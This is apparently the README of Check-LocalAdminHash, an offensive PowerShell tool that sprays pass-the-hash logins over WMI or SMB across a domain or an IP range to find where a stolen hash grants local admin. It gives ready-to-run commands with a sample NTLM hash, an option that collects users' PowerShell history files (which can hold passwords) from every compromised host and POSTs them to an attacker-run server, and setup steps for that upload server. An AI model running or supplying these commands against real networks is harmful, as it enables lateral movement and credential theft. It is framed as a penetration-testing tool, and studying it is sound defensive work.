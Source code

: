 # Check-LocalAdminHash
Check-LocalAdminHash is a PowerShell tool that attempts to authenticate to multiple hosts over either WMI or SMB using a password hash to determine if the provided credential is a local administrator. It's useful if you obtain a password hash for a user and want to see where they are local admin on a network. It is essentially a Frankenstein of two of my favorite tools along with some of my own code. It utilizes Kevin Robertson's (@kevin_robertson) Invoke-TheHash project for the credential checking portion. Additionally, the script utilizes modules from PowerView by Will Schroeder (@harmj0y) and Matt Graeber (@mattifestation) to enumerate domain computers to find targets for testing admin access against.

![alt text](http://www.dafthack.com/Check-LocalAdminHash-Example.jpg)

The reason this script even exists is because on an assessment I wanted to gather all the PowerShell console history files (PSReadline) from every system on the network. The PSReadline console history is essentially the PowerShell version of bash history. It can include so many interesting things that people type into their terminals including passwords. So, included in this script is an option to exfiltrate all the PSReadline files as well. There is a bit of setup for this. See the end of the Readme for setup.

For more info read the blog here: https://www.blackhillsinfosec.com/check-localadminhash-exfiltrating-all-powershell-history/


# Examples


### Checking Local Admin Hash Against All Hosts Over WMI
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems
```

### Exfiltrate All PSReadline Console History Files
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI. It then attempts to locate PowerShell console history files (PSReadline) for each profile on every system and then POST's them to a web server. See the bottom of the Readme for server setup.

```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems -ExfilPSReadline
```

### Using A CIDR Range
This command will use the provided CIDR range to generate a target list and then attempt to authenticate to each one using the local user 'PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -CIDR 192.168.1.0/24
```


### Using Target List and SMB and Output to File
This command will use the provided targetlist and attempt to authenticate to each host using the local user 'PossibleAdminUser' and a password hash over SMB.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -TargetList C:\temp\targetlist.txt -Protocol SMB | Out-File -Encoding Ascii C:\temp\local-admin-systems.txt
```


### Single Target
This command attempts to perform a local authentication for the user Administrator against the system 192.168.0.16 over SMB.
```PowerShell
Check-LocalAdminHash -TargetSystem 192.168.0.16 -Username Administrator -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -Protocol SMB
```

### Check-LocalAdminHash Options
```
Username - The Username for attempting authentication.
PasswordHash - Password hash of the user.
TargetSystem - Single hostname or IP for authentication attempt.
TargetList - A list of hosts to scan one per line
AllSystems - A switch that when enabled utilizes PowerView modules to enumerate all domain systems. This list is then used to check local admin access.
Domain - This is the domain that PowerView will utilize for discovering systems.
UserDomain - This is the user's domain to authenticate to each system with. Don't use this flag if using a local cred instead of domain cred.
Protocol - This is the setting for whether to check the hash using WMI or SMB. Default is 'WMI' but set it to 'SMB' to check that instead.
CIDR - Specify a CIDR form network range such as 192.168.0.0/24
Threads - Defaults to 5 threads. (I've run into some odd issues setting threads more than 15 with some results not coming back.)
ExfilPSReadline - For each system where auth is successful it runs a PowerShell command to locate PSReadLine console history files (PowerShell command history) and then POSTS them to a web server. See the Readme for server setup.
```

## PSReadline Exfiltration Setup
**This is your warning** that you are about to setup an Internet-facing server that will accept file uploads. Typically, this is a very bad thing to do. So definitely take precautions when doing this. I would recommend **locking down firewall rules** so that only the IP that will be uploading PSReadline files can hit the web server. Also, while we are on the topic of security, this will work just fine with an HTTPS connection so setup your domain and cert so that the PSReadline files are sent encrypted over the network. You have been warned...

  * Setup a server wherever you would like the files to be sent. This server must be reachable over HTTP/HTTPS from each system.

  * Copy the index.php script from this repo and put it in /index.php in the web root (/var/www/html) on your web server.

  * Make an uploads directory

  ``mkdir /var/www/html/uploads
``

  * Modify the permissions of this directory

  ``chmod 0777 /var/www/html/uploads
``

  * Make sure php is installed

  ``apt-get install php
``

  * Restart Apache

  ``service apache2 restart
``

  * In the Check-LocalAdminHash.ps1 script itself scroll down to the "Gen-EncodedUploadScript" function and modify the "$Url" variable right under "$UnencodedCommand". Point it at your web server index.php page. I haven't figured out how to pass the UploadUrl variable into that section of the code that ends up getting encoded and run on target systems so hardcode it for now.

Now when you run Check-LocalAdminHash with the -ExfilPSReadline flag it should attempt to POST each PSReadline (if there are any) to your webserver.

![alt text](http://www.dafthack.com/powershell-history-results.jpg)

## Credits
Check-LocalAdminHash is pretty much a Frankenstein of two of my favorite tools, PowerView and Invoke-TheHash. 95% of the code is from those two tools. So the credit goes to Kevin Robertson (@kevin_robertson) for Invoke-TheHash, and credit goes to Will Schroeder (@harmj0y), Matt Graeber (@mattifestation) (and anyone else who worked on PowerView). Without those two tools this script wouldn't exist. Also shoutout to Steve Borosh (@424f424f) for help with the threading and just being an all around awesome dude.

Invoke-TheHash - https://github.com/Kevin-Robertson/Invoke-TheHash

PowerView - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
